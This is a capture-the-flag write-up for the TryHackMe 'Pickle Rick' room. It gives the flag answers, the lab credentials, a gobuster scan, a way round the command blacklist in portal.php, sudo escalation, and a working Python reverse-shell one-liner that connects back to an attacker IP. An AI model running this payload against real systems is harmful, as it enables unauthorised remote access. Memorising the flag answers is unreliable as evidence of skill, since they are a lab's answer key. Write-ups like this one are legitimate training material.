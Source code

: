 ## TryHackMe | Pickle Rick
https://tryhackme.com/room/picklerick

---

IP: 10.10.37.39\
URL: https://10-10-37-39.p.thmlabs.com/

### Questions: 
1. What is the first ingredient Rick needs?  
Answer: mr. meeseek hair\
Location: http://10.10.37.39/Sup3rS3cretPickl3Ingred.txt or `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. Whats the second ingredient Rick needs?  
Answer: 1 jerry tear\
Location:` /home/rick/"second ingredients"`

3. Whats the final ingredient Rick needs?
Answer: fleeb juice\
Location: `/root/3rd.txt`

---
### Methods

From url:\
Username: R1ckRul3s

From robots.txt:\
Password: Wubbalubbadubdub


1. Run gobuster scan with extensions lookup (txt,html,css,js,py,php)
> ```bash
> gobuster dir -u http://10.10.246.225 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,css,js,html,txt,py,cgi,sh
> ```

2. Go to the URL as above, respective to given IP.
3. From the gobuster results, go to the `portal.php` page. 
4. Using the username and password received in index.html and robots.txt respectively, login to portal page.
5. Run `ls` command to find the first secret ingredient text file. Use `less` to display the file since cat, more and others are blacklisted. Read the notes below**
> Inspect the `portal.php` for blacklisted command
> 
> Blacklisted command:
> > "cat", "head", "more", "tail", "nano", "vim", "vi"
6. You have found all the info needed to find the second ingredients in `/home/rick`
7. Check `sudo -l` to find what can be run as sudo
8. Use sudo to display the file in /root by running the command in the `portal.php` command field
> ```bash
> sudo less /root/3rd.txt
> ```


**Another method to solve all this is by establishing reverse shell connection thru the `portal.php` command field. **

1. Setup netcat listener at port 9999
2. Run the following python revshell payload into the `portal.php` command field.
Python3 revshell payload:
> ```bash
> python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.26.94",9999));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
> ```
3. In this machine, the user has unlimited sudo privilege. go to root with `sudo bash`

---
### Notes

- Alternatives to cat,more,less
> `grep . <filename>`

- Inspect `portal.php` for restricted commands
- There is a base64 text in `portal.php` that translated to "rabbit hole"
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

- Alternatively, run python and netcat to establish reverse shell
